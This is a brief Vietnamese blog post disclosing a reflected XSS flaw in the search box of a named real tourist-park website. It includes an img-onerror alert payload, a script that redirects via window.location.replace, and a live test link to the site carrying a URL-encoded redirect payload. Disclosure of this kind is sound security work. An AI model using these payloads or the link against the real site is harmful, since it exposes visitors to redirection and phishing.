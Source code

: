 ```yaml
---
title: Lỗ hổng XSS của trang web khu du lịch Đại Nam
date: 12/6/2021
layout: single
--- 
```


---


## Mô Tả 

Dạo này cũng hay coi drama :D nên thử vào xem trang du lịch Đại Nam xem nó như thế nào, tình cờ phát hiện XSS ở ô tìm kiếm chèn thử vài script công nhận nó nguy hiểm thật :D  

--- 

# Demo
## Javascript
![](https://www8.0zz0.com/2021/06/12/18/357532369.png)
---
```js
--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->
```
Test nhẹ cái script thứ nhất hiển thị alert :D nếu hacker nhúng vào script chuyển hướng tới trang độc hại hoặc lừa đảo thì người dùng có thể bị mắc lừa của hacker, vì người dùng cứ nghĩ rằng đang ở trang chính chủ nhưng không biết đã bị hacker gắn script vào :D

```js
<script>
    window.location.replace("http://"); 
    </script>
```
Script này hacker sử dụng để chuyển hướng người dùng tới một trang web khác
+ [Link Test](https://khudulichdainam.vn/tim-kiem.html?k=%3Cscript%3E%20window.location.replace(%22http://blogth3pr0.github.io%22);%3C/script%3E) 
---





## Thanks :D
